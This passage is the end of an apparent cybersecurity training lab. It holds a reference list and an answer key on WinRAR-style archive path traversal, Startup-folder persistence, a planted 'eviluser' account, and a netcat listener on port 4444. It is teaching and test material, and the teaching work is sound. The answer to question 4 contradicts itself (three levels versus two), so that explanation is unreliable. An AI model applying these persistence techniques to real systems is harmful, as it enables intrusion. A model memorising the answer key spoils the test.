 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
 - <a href="https://owasp.org/www-community/attacks/Path_Traversal" target="_blank">Path Traversal | OWASP Foundation</a>
 - <a href="https://www.win-rar.com/" target="_blank">WinRAR</a>


</p>
</details>

<details>
<summary>
<h3>Answer Key</h3>
</summary>
<p>

**Knowledge Check Question 1:** *What Unix or Linux command can be used to isolate a process to a specific working directory?*

*chroot*

**Knowledge Check Question 2:** *What folder can be used to trigger malicious scripts and executables at boot in Windows?*

*Startup*

**Knowledge Check Question 3:** *If a weaponized archive was extracted path traversals enabled to the "/home/user/tmp/scripts/archive" directory, but contained an item with a relative extraction path of "../../etc/init.d/service.sh", what would the final full path of service.sh be?*

*/home/user/tmp/etc/init.d/service.sh - The relative path only moves up two directory levels, so the rest of the path lands in the `/home/user/tmp/` directory*

**Knowledge Check Question 4:** *How many levels does the weaponized security-update.rar archive expect to go up before matching the rest of the AppData directory structure to extract the .bat file to the Startup folder?*

*3 - The relative path is prepended with "../../../" so the extraction process would try to move up two directory levels*

**Knowledge Check Question 5:** *What is the last modified time value for the eviluser account that was added?*

*16:12:24*

**Knowledge Check Question 6:** *What port is used by netcat as the listener in the evilsvc service?*

*4444*

</p>
</details>

